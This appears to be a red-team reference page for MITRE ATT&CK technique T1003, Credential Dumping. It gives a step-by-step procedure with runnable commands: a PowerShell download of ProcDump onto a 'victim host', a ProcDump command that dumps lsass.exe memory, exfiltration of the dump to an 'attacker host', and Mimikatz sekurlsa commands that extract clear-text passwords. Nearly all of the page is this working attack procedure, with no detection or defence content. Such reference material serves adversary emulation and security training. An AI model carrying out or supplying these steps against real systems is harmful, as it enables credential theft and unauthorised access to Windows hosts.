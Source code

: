 # Credential Dumping

---
* **ID**: T1003
* **Source**: <https://attack.mitre.org/techniques/T1003/>
---

# Details

## Using `ProcDump` and `Mimikatz`
* Download `ProcDump` to victim host:
```
powershell Invoke-WebRequest -Uri "https://download.sysinternals.com/files/Procdump.zip" -OutFile %ALLUSERSPROFILE%\Procdump.zip
```
* Decompress `Procdump.zip` on victim host
* Dump process memory of lsass.exe (dump using a clone) on victim host:
```
%ALLUSERSPROFILE%\procdump.exe -accepteula -ma lsass.exe lsass.dmp -r
```
* Exfiltrate the dump file `lsass.dmp` to attacker host
* Run Mimikatz (x64/mimikatz.exe) on attacker host to grab clear-text passwords:
  * Run [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20190512/mimikatz_trunk.zip)
  * Type `sekurlsa::Minidump lsass.dmp`
  * Type `sekurlsa::logonPasswords`

# References

* <https://docs.microsoft.com/en-us/sysinternals/downloads/procdump>
* <https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20190512/mimikatz_trunk.zip>
